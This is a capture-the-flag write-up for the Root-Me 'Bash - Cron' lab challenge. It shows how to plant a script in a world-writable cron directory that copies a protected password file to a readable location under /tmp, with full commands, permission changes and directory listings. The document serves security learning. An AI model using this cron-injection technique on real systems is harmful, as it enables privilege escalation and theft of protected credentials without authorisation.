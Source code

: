 ### Challenge Documentation: Bash - Cron

**Category:** Root-Me / App-Script  

**Link:** [Bash - Cron](https://www.root-me.org/en/Challenges/App-Script/Bash-cron)

#### **Objective**
The goal is to exploit a cron job configuration to access the hidden password file located at `.passwd`.

### **1. Initial Setup**

The challenge provides SSH credentials to access the server:
- **Host**: `challenge02.root-me.org`  
- **Port**: `2222`  
- **Username**: `app-script-ch4`  
- **Password**: `app-script-ch4`  

#### **Connection Command**:
```bash
ssh -p 2222 app-script-ch4@challenge02.root-me.org
```

### **2. File Analysis**

Upon logging in, examine the directory contents:
```bash
ls -al
```

**Output:**
```
total 24
dr-xr-x---  2 app-script-ch4-cracked app-script-ch4         4096 Dec 10  2021 .
drwxr-xr-x 25 root                   root                   4096 Sep  5  2023 ..
-r-xr-x---  1 app-script-ch4-cracked app-script-ch4          767 Dec 10  2021 ch4
lrwxrwxrwx  1 root                   root                     11 Dec 10  2021 cron.d -> /tmp/._cron
-rw-r-----  1 root                   root                     42 Dec 10  2021 .git
-r--r-----  1 app-script-ch4-cracked app-script-ch4-cracked   16 Dec 10  2021 .passwd
-r--------  1 root                   root                    629 Dec 10  2021 ._perms
```

### **3. Key Observations**

1. **`cron.d` is a symlink** pointing to `/tmp/._cron`.  
   - This allows us to place scripts in `/tmp/._cron` that will be executed by the cron job system.  
   - The directory `/tmp` is generally writable by all users.  
2. The hidden `.passwd` file contains the challenge password, but it is not directly readable due to permissions.
3. The executable `ch4` appears to have no direct relevance to this challenge.

### **4. Exploitation Steps**

#### **Step 1: Navigate to the Cron Directory**

Change to the writable `/tmp/._cron` directory:
```bash
cd /tmp/._cron
```

#### **Step 2: Create a Malicious Cron Task**

Create a script that reads the `.passwd` file and stores its content in a world-readable file, such as `/tmp/mdp`:
```bash
echo '#!/bin/sh
cat /home/app-script-ch4/.passwd > /tmp/mdp' > task1
```

**Note:** The `\n` (newline) is required after `#!/bin/sh` to ensure the script is correctly interpreted.

#### **Step 3: Set Permissions for the Script**

Grant executable permissions to the script to ensure it can be run by the cron system:
```bash
chmod 4777 task1
```

#### **Step 4: Wait for the Cron Job to Execute**

Cron jobs are executed every minute. After placing the script in `/tmp/._cron`, wait one minute to allow it to run. The task will copy the content of `.passwd` to `/tmp/mdp`.

#### **Step 5: Retrieve the Password**

Once the cron job executes, view the content of `/tmp/mdp` to reveal the password:
```bash
cat /tmp/mdp
```

### **5. Output**

The output displays the hidden password. Example:
```
***************************
```

### **6. Summary of Commands**

Here is the complete set of commands used to solve the challenge:
```bash
ssh -p 2222 app-script-ch4@challenge02.root-me.org

# Navigate to the writable cron directory
cd /tmp/._cron

# Create a malicious cron task
echo '#!/bin/sh
cat /home/app-script-ch4/.passwd > /tmp/mdp' > task1

# Set the script's permissions
chmod 4777 task1

# Wait one minute for the cron job to execute

# Retrieve the password
cat /tmp/mdp
```

### **7. Conclusion**

By exploiting the writable `/tmp/._cron` directory, we were able to inject a malicious task that copied the content of the `.passwd` file to a readable location. This demonstrates the risk of insecure configurations in cron job management.  

